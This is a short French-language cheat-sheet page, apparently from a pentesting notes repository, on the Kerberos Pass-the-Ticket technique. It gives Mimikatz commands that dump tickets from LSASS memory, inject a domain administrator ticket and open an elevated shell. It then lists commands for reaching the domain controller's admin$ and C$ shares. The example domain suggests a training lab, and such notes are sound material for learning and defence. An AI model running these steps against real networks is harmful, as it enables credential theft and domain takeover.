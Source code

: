 # Pass The Ticket

[Mimikatz](Mimikatz.md)

Passer le ticket fonctionne en vidant le TGT de la mémoire LSASS (processus de mémoire qui stocke les informations d'identification sur un serveur d'annuaire actif) de la machine.

> Lorsque vous videz les tickets avec mimikatz, cela nous donnera un ticket `.kirbi` qui peut être utilisé pour obtenir l'administrateur de domaine si un ticket d'administrateur de domaine se trouve dans la mémoire LSASS.

> Toujours prendre un ticket administrateur du krbtgt

```sh
sekurlsa::tickets /export
# exportera tous les tickets .kirbi dans le répertoire actuel

kerberos::ptt [0;2f08fb]-2-0-60a10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi
# Toujours prendre un ticket administrateur du krbtgt

misc::cmd
# ouvrira une nouvelle invite de commande élevée
```
Ici nous vérifions simplement que nous avons réussi à usurper l'identité du ticket en répertoriant nos tickets en cache.

```sh
klist
# Nous n'utiliserons pas de mimikatz pour le reste de l'attaque.
```

Aores avoir usurpé l'identité du ticket, ce qui nous donne les mêmes droits que le TGT que nous avons usurpez. 

Pour acceder a une machine du domaine:

```sh
dir \\DOMAIN-CONTROLLER\admin$
dir \\Machin-IP\C$
```

## Problème rencontré
Il peut arrive que lorsque nous essayons d’accéder au répertoire `admin$` sur un DC, nous obtenons simplement `« Accès refusé »` !

Pour résoudre ce problème, vous devez utiliser le nom d'hôte du DC

```sh
nltest /dc:CONTROLLER.LOCAL
# win2012dc.CONTROLLER.LOCAL
```

```sh
dir \\win2012dc.CONTROLLER.LOCAL\admin$
```